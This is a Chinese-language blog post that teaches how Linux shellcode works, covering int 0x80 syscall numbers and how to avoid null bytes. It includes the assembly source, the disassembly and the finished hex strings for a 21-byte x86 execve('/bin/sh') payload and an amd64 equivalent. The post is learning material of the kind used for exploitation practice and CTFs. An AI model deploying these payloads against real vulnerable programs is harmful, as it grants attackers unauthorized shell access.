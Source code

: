 ```yaml
---
title: Shellcode 's Magic
date: 2018-07-10 23:14:24
tags: basic
layout: post
---
```

shellcode 原理 & 21byte shllcode 
<!--more-->
# Shellcode
    Shellcode实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限.
    虽然shellcode不常用 但是每次用到都要找博客比较麻烦今天整理一下。

## int 0x80
    将shellcode不得不提到汇编，也不得不提到int 0x80(实现系统调用）
    这里记录一下调用号
[常用的的调用号][1]
EAX | Name | EBX | ECX | EDX 
- | :-: | :-: | :-: | :-: |
1 | sys_exit | int 
3 | sys_read | unsigned int | char *  | size_t
4 | sys_write | unsigned int | const char * | size_t
5 | sys_open | const char * | int | int 
11 | sys_execve | struct pt_regs

    平时用的最多的是11号调用 execve("/bin/sh",0,0)
    也就是要求
 Reg | Vul
 :-: | :-:
 EAX | 11
 EBX | addr_of_sh
 ECX | 0
 EDX | 0

我们后面编写 shellcode 主要也是基于这个调用

## Make shellcode Yourself
自己编写 shellcode 主要优点 是灵活 可以随机应变 在一些特殊情况下可以编写 特定的 shellcode 或者 利用一些 寄存器原始值 来编写 十分短的shellcode.

### 坏字符
一般情况下首先考虑的是坏字符 其中0x00是最常遇到的问题 最常见的是使用xor

xor ax,ax ==> 0->ax

还有就是在mov时容易出现0x00
因为mov eax ,5;
其实是mov eax ,0x00000005
所以应该使用 mov al,5;

0xa坏字符遇到的不太多...如要绕过可以通过！@#￥%

### 参数/bin/sh
常见的做法是压入栈然后取eap
也就是
```asm
push 0x68732f2f
push 0x6e69622f 
mov ebx，esp
```

### Make it
souce:
```asm
Section .text
    global _start
_start:
	xor ecx, ecx
	mul ecx
	push ecx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80
```
编译 链接 命令如下
```
nasm -f elf64 shellcode.asm -o shellcode.o
# 32位系统 用-f elf 
ld -s shellcode.o -o shellcode 
```
反汇编之后#objdump -d 

```
00000000 <_start>:
   0:	31 c9                	xor    %ecx,%ecx
   2:	f7 e1                	mul    %ecx
   4:	51                   	push   %ecx
   5:	68 2f 2f 73 68       	push   $0x68732f2f
   a:	68 2f 62 69 6e       	push   $0x6e69622f
   f:	89 e3                	mov    %esp,%ebx
  11:	b0 0b                	mov    $0xb,%al
  13:	cd 80                	int    $0x80
```
这里我们采用最灵活的人脑提取法得到shellcode
```
shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
#浓缩的21byte
```


amd64shellcode
```
shellcode= "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
```

[1]: https://blog.csdn.net/xiaominthere/article/details/17287965
